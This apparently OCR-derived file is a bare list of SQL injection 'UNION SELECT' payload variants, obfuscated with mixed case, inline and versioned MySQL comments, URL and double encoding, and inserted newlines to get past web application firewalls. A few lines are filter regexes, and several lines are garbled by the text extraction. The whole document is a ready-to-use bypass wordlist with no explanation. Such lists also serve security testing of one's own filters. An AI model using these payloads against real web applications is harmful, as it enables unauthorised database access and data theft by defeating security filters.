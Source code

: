 ```
uNiOn aLl sElEcT
UNIunionON+SELselectECT
/**/union/*!50000select*//**/
0%a0union%a0select%09
%0Aunion%0Aselect%0A
%55nion/**/%53elect
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
%0A%09UNION%0CSELECT%10NULL%
/*!union*//*--*//*!all*//*--*//*!select*/
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
+UnIoN/*&a=*/SeLeCT/*&a=*/
union+sel%0bect
+uni*on+sel*ect+
+#1q%0Aunion all#qa%0A#%0Aselect
union(select (1),(2),(3),(4),(5))
UNION(SELECT(column)FROM(table))
%23xyz%0AUnIOn%23xyz%0ASeLecT+
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+
union(select(1),2,3)
union (select 1111,2222,3333)
uNioN (/*!/**/ SeleCT */ 11)
union (select 1111,2222,3333)
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/
+%23sexsexsex%0AUnIOn%23sexsexs ex%0ASeLecT+
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/
+%23blobblobblob%0aUnIOn%23blobblobblob%0aSeLe cT+
/*!blobblobblob%0d%0aunion*/+/*!blobblobblob%0d%0aSelEct*/
/union\sselect/g
/union\s+select/i
/*!UnIoN*/SeLeCT
+UnIoN/*&a=*/SeLeCT/*&a=*/
+uni>on+sel>ect+
+(UnIoN)+(SelECT)+
+(UnI)(oN)+(SeL)(EcT)
+’UnI”On’+'SeL”ECT’
+uni on+sel ect+
+/*!UnIoN*/+/*!SeLeCt*/+
/*!u%6eion*/ /*!se%6cect*/
uni%20union%20/*!select*/%20
union%23aa%0Aselect
/**/union/*!50000select*/
/^.*union.*$/ /^.*select.*$/
/*union*/union/*select*/select+
/*uni X on*/union/*sel X ect*/
+un/**/ion+sel/**/ect+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?<ion sel="">+un/**/ion+se/**/lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*!UnIoN*/SeLecT+

```